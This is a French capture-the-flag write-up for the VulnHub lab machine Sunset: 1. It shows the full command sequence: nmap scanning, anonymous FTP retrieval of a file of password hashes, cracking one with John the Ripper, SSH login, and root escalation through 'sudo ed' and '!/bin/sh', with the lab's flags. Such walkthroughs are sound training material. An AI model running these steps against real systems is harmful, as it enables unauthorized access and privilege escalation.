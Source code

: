 ```yaml
---
title: "CTF Sunset: 1"
date: 2021-04-29
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/sunset-1,339
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.1** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.63`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir Sunset1 && cd Sunset1`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -A -p- $IP -oN nmap.txt
Nmap scan report for sunset.home (192.168.1.63)
Host is up (0.00053s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
| ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.1.63:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey:
|   2048 71:bd:fa:c5:8c:88:7c:22:14:c4:20:03:32:36:05:d6 (RSA)
|   256 35:92:8e:16:43:0c:39:88:8e:83:0d:e2:2c:a4:65:91 (ECDSA)
|_  256 45:c5:40:14:49:cf:80:3c:41:4f:bb:22:6c:80:1e:fe (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On a un serveur **FTP** sur le port **21** et un serveur **SSH** sur le port **22**. On commence donc par énumérer le serveur **FTP** en tant qu'utilisateur anonyme.

```bash
$ ftp
open 192.168.1.63
Connected to 192.168.1.63.
220 pyftpdlib 1.5.5 ready.
Name (192.168.1.63:kali): anonymous
331 Username ok, send password.
Password:
230 Login successful.
ftp> ls -la
200 Active data connection established.
125 Data connection already open. Transfer starting.
-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
```

Un fichier nommé "backup" est disponible.

```bash
ftp> get backup
local: backup remote: backup
200 Active data connection established.
125 Data connection already open. Transfer starting.
226 Transfer complete.
1062 bytes received in 0.00 secs (668.2406 kB/s)
ftp> exit
221 Goodbye.
```

Regardons ce que contient le fichier "backup".

```bash
$ cat backup
CREDENTIALS:
office:$6$$9ZYTy.VI0M7cG9tVcPl.QZZi2XHOUZ9hLsiCr/avWTajSPHqws7.75I9ZjP4HwLN3Gvio5To4gjBdeDGzhq.X.
datacenter:$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/
sky:$6$$Ny8IwgIPYq5pHGZqyIXmoVRRmWydH7u2JbaTo.H2kNG7hFtR.pZb94.HjeTK1MLyBxw8PUeyzJszcwfH0qepG0
sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
space:$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/
```

Cela ressemble fortement à du **SHA-512**... Dans un nouveau fichier texte, on isole le compte de "sunset" (étant donné que c'est le nom du CTF) `echo 'sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/' >> sunset.txt` (bien mettre des simples quotes et non des doubles quotes) afin de lancer **John the Ripper** pour le déchiffrer.

```bash
$ john sunset.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 6 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
0g 0:00:00:52 46,72% 2/3 (ETA: 16:58:06) 0g/s 1370p/s 1370c/s 1370C/s srediaR..aeerdnA
Proceeding with incremental:ASCII
cheer14          (sunset)
```

Après quelques minutes, **John** nous trouve le mot de passe "cheer14".

## Pénétration

Maintenant que nous avons le mot de passe de l'utilisateur "sunset", on peut pénétrer sur le serveur via **SSH**.

```bash
$ ssh sunset@$IP
sunset@192.168.1.63's password: cheer14
```

Dans le répertoire de cet utilisateur, on trouve le flag user.

```bash
$ cat user.txt
5b5b8e9b01ef27a1cc0a2d5fa87d7190
```

## Escalation

Regardons les privilèges de cet utilsateur.

```bash
$ sudo -l
(root) NOPASSWD: /usr/bin/ed
```

Sur [GTFOBins](https://gtfobins.github.io/gtfobins/ed/#sudo), on regarde quelle commande permet d'utiliser la commande "ed" en tant que "sudo" dans le terminal.

```bash
$ sudo ed
$ !/bin/sh
$ id
uid=0(root) gid=0(root) groups=0(root)
```

Désormais "root", dans le répertoire de ce dernier, on trouve le flag final.

```bash
$ cat /root/flag.txt
25d7ce0ee3cbf71efbac61f85d0c14fe
```
